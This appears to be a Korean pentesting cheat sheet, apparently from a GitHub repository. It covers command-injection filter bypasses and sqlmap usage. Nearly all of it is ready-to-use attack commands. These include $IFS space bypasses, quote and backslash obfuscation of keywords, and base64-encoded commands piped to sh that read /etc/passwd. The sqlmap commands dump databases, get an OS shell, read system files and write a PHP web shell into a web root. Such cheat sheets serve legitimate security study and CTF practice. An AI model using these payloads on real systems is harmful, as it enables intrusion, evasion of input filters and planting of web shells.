 ```bash
# 공백 우회
{cmd}
${IFS}cmd
$IFS$9cmd
cmd$IFS$9
%20cmd
%09cmd

# 키워드 우회
cat → c''at, c""at, c\at, \c\a\t
id → i\d, 'i'd, "i"d
whoami → w'h'o'a'm'i, w"h"o"a"m"i

# 변수 활용
a=i;b=d;$a$b
cmd=id;$cmd
c='cat /etc/passwd';$c

# Base64 인코딩
echo 'aWQ=' | base64 -d | sh
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | sh
```

---

## 🤖 자동화 도구 명령어

### 🔍 SQLMap

```bash
# 기본 스캔
sqlmap -u "http://{IP}/page.php?id=1" --dbs
sqlmap -u "http://{IP}/page.php?id=1" --current-db
sqlmap -u "http://{IP}/page.php?id=1" --tables
sqlmap -u "http://{IP}/page.php?id=1" -D database --dump

# POST 데이터 스캔
sqlmap -u "http://{IP}/login.php" --data="username=admin&password=admin" --dbs

# 쿠키 포함
sqlmap -u "http://{IP}/page.php?id=1" --cookie="PHPSESSID=abc123" --dbs

# Request 파일 사용
sqlmap -r request.txt --dbs

# OS 쉘 획득
sqlmap -u "http://{IP}/page.php?id=1" --os-shell

# 파일 읽기/쓰기
sqlmap -u "http://{IP}/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://{IP}/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"
```

